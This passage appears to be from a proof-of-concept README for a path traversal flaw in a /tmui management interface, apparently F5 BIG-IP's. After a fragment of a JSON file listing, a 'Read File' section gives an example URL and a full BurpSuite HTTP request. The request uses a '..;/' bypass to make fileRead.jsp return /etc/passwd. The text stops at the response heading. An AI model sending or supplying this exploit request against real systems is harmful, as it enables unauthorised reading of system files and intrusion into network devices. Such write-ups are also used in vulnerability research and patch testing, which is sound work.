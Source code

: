 ```
                            "children": [
                              {
                                "dir": "common",
                                "children": [
                                  {
                                    "file": "deleteconfirm_jsp.class"
  
                                      ............................
```

## 0x01 Read File 

Example:

`/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd`

![](./Read_File.png)

#### BurpSuite Requests
```
GET /tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

#### BurpSuite Response
